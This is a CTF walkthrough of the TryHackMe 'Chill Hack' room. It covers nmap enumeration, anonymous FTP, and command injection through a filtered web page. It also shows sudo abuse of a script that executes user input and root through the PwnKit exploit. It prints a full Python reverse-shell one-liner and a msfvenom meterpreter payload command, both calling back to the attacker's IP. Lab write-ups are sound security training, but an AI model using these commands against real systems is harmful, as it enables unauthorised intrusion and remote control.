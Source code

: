 ```yaml
---
title: Walkthrough - Chill Hack
published: true
---
```


Chill the Hack out of the Machine.

[https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

* * *

## Notes

- nmap scan

```shell
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- ftp allowed anonymous login and we can get a note.

```shell
─(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chill-Hack]
└─$ cat note.txt          
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

- gobuster scan we find ``/secret/``
- ``/secret/`` lets us execute commands on the machine
- but as the note in the FTP said, it is filtering some strings. maybe we can bypass this some way.

- ``uname -a`` ``Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux``
- tried wget a php rev shell and it uploads but cant tell where...
- looks like we can use find so we can setup netcat and reverse shell by using ``find /usr/bin/python3 -exec {} -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.127.225",6669));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \;``

- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``

- sudo -l give us the following:

```shell
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

- .helpline.sh

```sh
Welcome to helpdesk. Feel free to talk to anyone at any time!

!/bin/sh

Thank you for your precious time!
$ cat ./.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- so user apaar can run this script as sudo
- ``sudo -u apaar /home/apaar/.helpline.sh``
- then ``/bin/bash`` to open up a terminal as apaar

- generate ssh key and add it to the authorized key file in apaars .ssh to open up ssh connection for better terminal
- uname -a we have x86 linux so generate meterpreter.elf
- ``msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f elf > meterpreter.elf`` and wget to target and open up ``msfconsole`` and multi-handler listener

* * * 

## What is the user flag?

- upgrade terminal and cat local.txt for user flag

* * * 

## What is the root flag?

- ``linux/local/cve_2021_4034_pwnkit_lpe_pkexec`` will give us root
- cat proof.txt in /root/

* * * 

